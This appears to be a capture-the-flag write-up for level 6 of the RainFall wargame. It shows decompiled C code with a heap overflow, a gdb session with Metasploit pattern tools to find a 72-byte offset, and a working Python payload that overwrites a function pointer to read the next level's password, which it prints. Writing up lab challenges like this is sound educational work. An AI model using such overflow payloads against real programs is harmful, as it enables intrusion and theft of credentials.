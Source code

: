 # Level 6

```

void n(void)
{
  system("/bin/cat /home/user/level7/.pass");
  return;
}

void m()
{
  puts("Nope");
  return;
}

int main(undefined4 param_1,char ** av)
{
  char *dest;
  code **fun;
  
  dest = (char *)malloc(0x40);
  fun = (code **)malloc(4);
  *fun = m;
  strcpy(dest,*(char **)(av[1]));
  (**fun)();
  return;
}
```

in this level we have a heap overflow vulnerability, we can overwrite the fun pointer to point to the n function and get the password.

first we need to find the offset, we can do that with metasploit pattern_create and pattern_offset.

```bash
┌──(kali㉿kali)-[~/rainfall]
└─$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

in gdb we can run the program with the pattern as an argument and check the value of the function pointer.

```bash
(gdb) r "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/level6/level6 "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"

Breakpoint 1, 0x080484c5 in main ()
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x41346341 in ?? ()
(gdb) info registers
eax            0x41346341       1093952321
ecx            0xbffff900       -1073743616
edx            0x804a069        134520937
ebx            0xb7fd0ff4       -1208152076
esp            0xbffff69c       0xbffff69c
ebp            0xbffff6c8       0xbffff6c8
esi            0x0      0
edi            0x0      0
eip            0x41346341       0x41346341
eflags         0x210202 [ IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```

the value of the function pointer is 0x41346341, we can use pattern_offset to find the offset.

```bash
┌──(kali㉿kali)-[~/rainfall]
└─$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 100 -q 0x41346341
[*] Exact match at offset 72
```

now we can easily exploit it with the following payload.

```bash
level6@RainFall:~$ ./level6 $(python2 -c 'print "A"*72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
